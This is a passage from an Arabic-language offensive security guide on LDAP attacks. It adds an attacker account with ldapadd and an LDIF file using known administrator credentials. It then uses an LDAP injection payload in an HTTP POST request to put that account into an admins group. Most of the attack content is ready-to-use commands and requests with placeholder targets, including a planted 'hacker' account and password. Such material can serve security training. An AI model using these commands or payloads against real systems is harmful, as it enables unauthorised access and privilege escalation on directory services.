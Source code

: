    username=hacker&password=hacker123
    ```

#### ب. إضافة مستخدم جديد باستخدام `ldapadd`
- **السيناريو**: لديك بيانات اعتماد إدارية (`administrator:MYKE`) وتريد إضافة مستخدم `hacker`.
- **الأوامر**:
  - أنشئ ملف LDIF (`add_hacker.ldif`):
    ```
    dn: uid=hacker,dc=domain,dc=com
    objectClass: inetOrgPerson
    uid: hacker
    cn: Hacker
    sn: Hacker
    userPassword: hacker123
    ```
  - شغّل `ldapadd`:
    ```
    ldapadd -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE -f add_hacker.ldif
    ```
- **كيف يعمل**:
  - `ldapadd` يرسل طلب إنشاء كائن جديد إلى خادم LDAP.
  - إذا نجح، يتم إضافة المستخدم `hacker`.
- **متى يُستخدم؟**:
  - عندما تملك وصولًا إداريًا ووصول مباشر إلى خادم LDAP.
- **الأوامر/الإجراءات**:
  - أنشئ ملف LDIF وشغّل الأمر أعلاه.
  - تحقق من المستخدم بتسجيل الدخول أو استعلام بحث:
    ```
    ldapsearch -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE -b "uid=hacker,dc=domain,dc=com"
    ```

#### ج. إضافة مستخدم إلى مجموعة إدارية
- **السيناريو**: تريد إضافة المستخدم `hacker` إلى مجموعة `admins` عبر واجهة `/admin/add_group_member`.
- **الإدخال**:
  - Username: `hacker)(uid=hacker)(memberOf=cn=admins,dc=domain,dc=com)`
  - Group: `anything`
- **الطلب**:
  ```
  POST /admin/add_group_member HTTP/1.1
  Host: example.com
  Content-Type: application/x-www-form-urlencoded

  username=hacker)(uid=hacker)(memberOf=cn=admins,dc=domain,dc=com)&group=anything
  ```
- **كيف يعمل**:
  - الاستعلام يحاول إضافة `hacker` إلى مجموعة `admins`.
  - استجابة إيجابية تؤكد نجاح الإضافة.
- **متى يُستخدم؟**:
  - لمنح صلاحيات إدارية لمستخدم جديد أو موجود.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - تحقق من الصلاحيات بتسجيل الدخول بـ `hacker:hacker123`.
